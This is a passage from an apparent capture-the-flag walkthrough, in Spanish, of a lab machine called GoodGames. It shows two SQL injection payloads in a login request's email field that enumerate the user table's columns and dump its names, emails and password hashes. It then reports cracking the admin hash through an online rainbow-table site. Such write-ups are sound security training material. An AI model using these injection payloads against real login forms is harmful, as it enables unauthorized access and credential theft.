 `Listamos` las `columnas` de la tabla `User`

![](/assets/img/GoodGames/image_11.png)

```
email=test%40gmail.com' union select 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name='user' AND table_schema='main'-- - &password=test
```

`Listamos` el `contenido` de la tabla `User`

![](/assets/img/GoodGames/image_12.png)

```
email=test%40gmail.com' union select 1,2,3,group_concat(name, ' : ',email,' : ',password ) from user-- -  &password=test
```

He `obtenido` la contraseña (`2b22337f218b2d82dfc3b6f77e7cb8ec`) del usuario `admin` usando `rainbow tables` [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

![](/assets/img/GoodGames/image_13.png)
